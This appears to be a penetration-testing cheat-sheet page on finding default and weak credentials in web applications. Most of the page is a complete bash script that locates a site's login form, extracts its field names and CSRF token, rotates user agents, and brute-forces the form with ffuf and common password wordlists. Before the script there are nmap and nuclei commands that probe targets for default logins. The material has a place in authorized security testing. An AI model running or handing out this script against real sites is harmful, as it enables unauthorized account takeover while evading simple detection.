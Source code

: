 # Default Credentials

## Check List

* [ ] Determine whether the application has any user accounts with default passwords.
* [ ] Review whether new user accounts are created with weak or predictable passwords.

## Cheat Sheet

### Vendor Default Credentials

#### Default Creds

{% embed url="https://github.com/many-passwords/many-passwords" %}

{% embed url="https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv" %}

{% embed url="https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials" %}

{% embed url="https://many-passwords.github.io/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://haveibeenpwned.com/Passwords" %}

{% embed url="https://cirt.net/passwords" %}

{% hint style="info" %}
Search Default Passwords
{% endhint %}

```bash
creds search tomcat
```

#### [Nmap](https://nmap.org/book/man-nse.html)

```bash
sudo nmap -p80,443 --mtu 5000 --script http-default-accounts $WEBSITE
```

#### [Nuclei](https://github.com/projectdiscovery/nuclei-templates/tree/main/http/default-logins)

```bash
nuclei -u $WEBSITE -tags default-login
```

### Status Code <a href="#error-message" id="error-message"></a>

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano default-bruteforce.sh
```

```bash
#!/bin/bash

# CONFIG
USERLIST="/usr/share/seclists/Usernames/top-usernames-shortlist.txt"
PASSLIST="/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt"
UA_LIST="/usr/share/seclists/Fuzzing/User-Agents/user-agents-whatismybrowserdotcom-mid.txt"

# INPUT CHECK
if [ $# -lt 1 ]; then
    echo "Usage: $0 <domain.com>"
    exit 1
fi

URL="$1"

# FIND LOGIN PAGE
LOGIN=$(katana -u "$URL" -depth 3 -silent | \
grep -iE "/(login|signin|sign-in|auth|user/login|admin/login|my-account|account|wp-login\.php)(/)?$" | \
grep -viE "lost-password|reset|forgot|register|signup|signout|logout|\.(js|css|jpg|png|gif|svg|ico)$" | \
sed 's:[/?]*$::' | sort -u | head -n1)

if [ -z "$LOGIN" ]; then
    echo "[!] No login page found. Exiting."
    exit 1
fi

# FETCH HTML
HTML=$(curl -s "$LOGIN")
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 100)

# CAPTCHA / reCAPTCHA check
CAPTCHA_KEYWORDS="g-recaptcha|recaptcha|h-captcha|data-sitekey|captcha|grecaptcha.execute|hcaptcha.execute"
if echo "$HTML" | grep -qiE "$CAPTCHA_KEYWORDS"; then
    echo "[!] CAPTCHA detected on login page. Brute-force aborted."
    exit 1
fi

# EXTRACT FORM ACTION AND METHOD
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
[ -z "$ACTION" ] && ACTION="$LOGIN"

METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
[ -z "$METHOD" ] && METHOD="post"

if [[ "$ACTION" == /* ]]; then
    BASE_URL=$(echo "$URL" | sed 's|^\(https\?://[^/]*\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
elif [[ "$ACTION" =~ ^https?:// ]]; then
    FULL_ACTION="$ACTION"
else
    BASE_URL=$(echo "$LOGIN" | sed 's|\(https\?://.*/\).*|\1|')
    FULL_ACTION="${BASE_URL}${ACTION}"
fi

# EXTRACT USERNAME & PASSWORD FIELDS
USERNAME_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'user(name)?|login(_id)?|userid|uname|mail|email|auth_user' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
PASSWORD_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | \
grep -Ei 'pass(word)?|passwd|pwd|auth_pass|login_pass' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')

[ -z "$USERNAME_FIELD" ] && USERNAME_FIELD="username"
[ -z "$PASSWORD_FIELD" ] && PASSWORD_FIELD="password"

# CSRF TOKEN EXTRACTION
CSRF_FIELD=""
CSRF_VALUE=""

HIDDEN_INPUTS=$(echo "$FORM" | grep -oiP '<input[^>]+type=["'\'']?hidden["'\'']?[^>]*>')
while read -r INPUT; do
    NAME=$(echo "$INPUT" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+')
    VALUE=$(echo "$INPUT" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+')
    if [[ "$NAME" =~ csrf|token|nonce|authenticity|verification ]]; then
        CSRF_FIELD="$NAME"
        CSRF_VALUE="$VALUE"
        break
    fi
done <<< "$HIDDEN_INPUTS"

if [ -z "$CSRF_FIELD" ] && [ -n "$HIDDEN_INPUTS" ]; then
    CSRF_FIELD=$(echo "$HIDDEN_INPUTS" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+' | head -1)
    CSRF_VALUE=$(echo "$HIDDEN_INPUTS" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+' | head -1)
fi

# PREPARE POST DATA
DATA="${USERNAME_FIELD}=FUZZ1&${PASSWORD_FIELD}=FUZZ2"
[ -n "$CSRF_FIELD" ] && [ -n "$CSRF_VALUE" ] && DATA="${CSRF_FIELD}=${CSRF_VALUE}&${DATA}"

# EXTRACT COOKIES
COOKIES=$(curl -s -I "$LOGIN" | grep -i '^Set-Cookie:' | sed -E 's/^Set-Cookie: //I' | tr -d '\r\n')

# HEADERS
HEADERS=(
  -H "Content-Type: application/x-www-form-urlencoded"
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0"
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"
  -H "Accept-Language: en-US,en;q=0.5"
  -H "Accept-Encoding: gzip, deflate"
  -H "Connection: keep-alive"
  -H "Upgrade-Insecure-Requests: 1"
  -H "Referer: $LOGIN"
)
[ -n "$COOKIES" ] && HEADERS+=(-H "Cookie: $COOKIES")

# RUN FFUF
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "$UA_LIST:UA" \
         -X GET \
         -ac -c -r \
         -mc 200,301,302 \
         -H "User-Agent: UA" \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -w "$UA_LIST:UA" \
         -X POST \
         -d "$DATA" \
         -ac -c -r \
         -mc 200,301,302 \
         -H "User-Agent: UA" \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x default-bruteforce.sh;sudo ./default-bruteforce.sh $WEBSITE
```

